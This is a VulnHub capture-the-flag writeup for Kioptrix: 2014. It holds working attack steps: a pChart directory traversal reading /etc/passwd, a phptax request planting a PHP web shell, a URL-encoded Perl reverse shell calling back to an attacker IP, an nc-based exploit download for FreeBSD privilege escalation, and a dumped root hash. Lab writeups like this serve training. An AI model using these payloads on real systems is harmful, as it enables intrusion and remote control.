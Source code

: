 [VulnHub] Kioptrix: 2014 (#5)
===============
date: 09/Oct/2019
summary: This is a writeup for VulnHub machine Kioptrix: 2014 (#5).
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_kioptrix5/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_kioptrix5/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`: [exploit_pchart](https://github.com/7h3rAm/writeups#exploit_pchart)  
2\. `8080/tcp/http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`: [exploit_phptax](https://github.com/7h3rAm/writeups#exploit_phptax), [privesc_freebsd](https://github.com/7h3rAm/writeups#privesc_freebsd)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_kioptrix5/openports.png.webp)  

3\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot01.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_vulnhub_kioptrix5/screenshot02.png.webp)  

![writeup.enumeration.steps.3.3](/static/files/posts_vulnhub_kioptrix5/screenshot03.png.webp)  

### Findings
#### Open Ports
```
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
```
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot06.png.webp)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
```
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot07.png.webp)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot08.png.webp)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
```
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_kioptrix5/screenshot09.png.webp)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_kioptrix5/screenshot10.png.webp)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_kioptrix5/screenshot11.png.webp)  

![writeup.exploitation.steps.4.4](/static/files/posts_vulnhub_kioptrix5/screenshot12.png.webp)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
```
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_kioptrix5/screenshot13.png.webp)  

![writeup.exploitation.steps.5.2](/static/files/posts_vulnhub_kioptrix5/screenshot14.png.webp)  

## Phase #2.5: Post Exploitation
```
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
```
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot15.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot16.png.webp)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot17.png.webp)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_kioptrix5/screenshot18.png.webp)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_kioptrix5/screenshot19.png.webp)  

2\. We can now view the `congrats.txt` file to complete the challenge:  
```
cat /root/congrats.txt
```
![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot20.png.webp)  

## Loot
### Hashes
```
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
* <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
* <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
* <https://jhalon.github.io/vulnhub-kioptrix5/>  
